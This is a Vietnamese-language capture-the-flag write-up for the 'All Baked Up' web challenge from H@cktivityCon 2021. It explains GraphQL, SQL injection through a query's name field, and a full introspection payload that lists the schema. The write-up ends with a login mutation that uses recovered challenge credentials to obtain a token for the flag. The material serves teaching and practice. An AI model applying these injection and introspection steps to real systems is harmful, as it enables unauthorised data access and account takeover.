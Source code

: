 ```yaml
---
title: All Baked Up - H@cktivityCon 2021 CTF
author: HoangND
date: 2021-09-19 22:00:00 +0700
categories: [Writeups, H@cktivityCon 2021 CTF]
tags: [graphql, web, sqli]
---
```


## GraphQL
Vì challenge này liên quan đến graphql và mình chưa biết về cái này nên sẽ mô tả qua ở đây một chút. GraphQL là ngôn ngữ truy vấn cho các API và runtime để thực hiện các truy vấn đó với dữ liệu. Nghĩa là người dùng sẽ tương tác với API thông qua graphql

![image](/assets/posts/all-baked-up/1.png)

Mục đích của graphql là tạo ra một endpoint đơn giản dễ hiểu dễ sử dụng để handle tất cả các endpoint phức tạp còn lại. Về operation trong graphql có hai kiểu chính là query và mutation. Ở đây query tương đương với câu lệnh select bình thường, trong khi đó mutation thường thực hiện các thao tác thay đổi bên trong dữ liệu (create, update, delete). Để dễ hình dung thì ý tưởng của query và mutation tương đương với get, post về mặt convention.  

## Solve challenge
All Baked Up là một trang web được dùng để lưu giữ các công thức làm bánh. Chức năng chỉ dừng lại ở trang liệt kê danh sách và truy cập cụ thể vào công thức của từng loại bánh.

![image](/assets/posts/all-baked-up/2.png)

Phân tích các request của nó

![image](/assets/posts/all-baked-up/3.png)

Vậy là trang web sử dụng công nghệ graphql để thực hiện truy vấn. Phân tích qua một chút về payload trong request của bài này

![image](/assets/posts/all-baked-up/4.png)

Truy vấn được thực hiện có tên là UserQuery, kiểu truy vấn là Query. Bên trong truy vấn thực hiện lấy post thông qua việc kiểm tra thuộc tính name. Bây giờ thử detect sqli xem thế nào, ở đây mình thử detect trong trường name bằng dấu '

![image](/assets/posts/all-baked-up/5.png)

Kết quả trả về lỗi sql, như vậy có thể thực hiện sqli ở trường này, tiếp tục sqli với union mình thu được 

![image](/assets/posts/all-baked-up/6.png)

Vậy có thể retrieve dữ liệu thông qua các vị trí 2,3,4,6. Tiếp theo là bước SQLi đơn giản mình xin phép lướt qua. Kết quả mình đạt được là trang web sử dụng cơ sở dữ liệu SQLite, có hai table là users và posts. Bên trong posts không có gì hay ho vì đã hiển thị hên lên giao diện người dùng rồi. Kiểm tra users thì thấy có một user duy nhất là tên của tác giả bài này.

![image](/assets/posts/all-baked-up/7.png)

Như vậy mình đã có được thông tin đăng nhập của một user, tuy nhiên trang đăng nhập ở đâu ??????. Sau đó mình sử dụng công cụ Gobuster để kiểm tra các endpoint, tuy nhiên không có bất kỳ endpoint nào cho việc đăng nhập. Để ý kỹ thì trong request của mình có trường session, decode ra thấy thông tin đăng nhập là guest, hẳn là phải có một cách thức đăng nhập nào đó. 

Sau đó mình tìm kiếm các lỗi graphql trên mạng, và tìm thấy có thứ gọi là ***__schema***. Đây là một system type chứa các thông tin về query cũng như mutation (tương tự information_schema của Mysql). Ăn sẵn bê luôn payload trên mạng vào 🙏.

```
"query":"query UserQuery {\n__schema{\nqueryType{\nname\n}mutationType{\nname\n}subscriptionType{\nname\n}types{\n...FullType\n}directives{\nname description locations args{\n...InputValue\n}\n}\n}\n}fragment FullType on __Type{\nkind name description fields(includeDeprecated:true){\nname description args{\n...InputValue\n}type{\n...TypeRef\n}isDeprecated deprecationReason\n}inputFields{\n...InputValue\n}interfaces{\n...TypeRef\n}enumValues(includeDeprecated:true){\nname description isDeprecated deprecationReason\n}possibleTypes{\n...TypeRef\n}\n}fragment InputValue on __InputValue{\nname description type{\n...TypeRef\n}defaultValue\n}fragment TypeRef on __Type{\nkind name ofType{\nkind name ofType{\nkind name ofType{kind name ofType{\nkind name ofType{\nkind name ofType{\nkind name ofType{\nkind name\n}\n}\n}\n}\n}\n}\n}\n}\n"
```

Kết của trả về chứa các query và mutation được hỗ trợ, ở đây mình tìm thấy một query để lấy flag

```json
{
    "args": [

    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "flag",
    "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
    }
}
```

Thử luôn xem lấy được flag không

![image](/assets/posts/all-baked-up/8.png)

Vậy là bắt buộc phải đăng nhập và lấy được token. Tiếp tục tìm kiếm bên trong __schema, mình tìm thấy một mutation xác thực user

```json
{
    "args": [{
            "defaultValue": null,
            "description": "",
            "name": "username",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        },
        {
            "defaultValue": null,
            "description": "",
            "name": "password",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        }
    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "authenticateUser",
    "type": {
        "kind": "OBJECT",
        "name": "Auth",
        "ofType": null
    }
}
```

Từ thuộc tính type mình biết được mutation này trả về object kiểu Auth, ngay dưới mutation này có mô tả về type Auth

```json
{
    "description": "Auth info for a user",
    "enumValues": null,
    "fields": [{
            "args": [

            ],
            "deprecationReason": null,
            "description": "The token",
            "isDeprecated": false,
            "name": "token",
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            }
        },
        {
            "args": [

            ],
            "deprecationReason": null,
            "description": "The user",
            "isDeprecated": false,
            "name": "user",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "OBJECT",
                    "name": "User",
                    "ofType": null
                }
            }
        }
    ],
    "inputFields": null,
    "interfaces": [

    ],
    "kind": "OBJECT",
    "name": "Auth",
    "possibleTypes": null
}
```

Bên trong Auth có trường token. Túm váy lại, mình sẽ tạo mutation và truyền vào username và password sau đó lấy token từ response cho việc xác thực. Payload cuối cùng để đăng nhập như sau

```json
{
    "operationName":"UserMutation",
    "variables":{
        "username":"congon4tor",
        "password":"n8bboB!3%vDwiASVgKhv"
    },
    "query":"mutation UserMutation($username:String!, $password:String!) {\nauthenticateUser(username:$username, password:$password){\ntoken\n}\n}\n"
}
```

![image](/assets/posts/all-baked-up/9.png)

Lấy được token rồi, quay lại lấy flag thôi. Thêm header Authorization vào request.

![image](/assets/posts/all-baked-up/10.png)



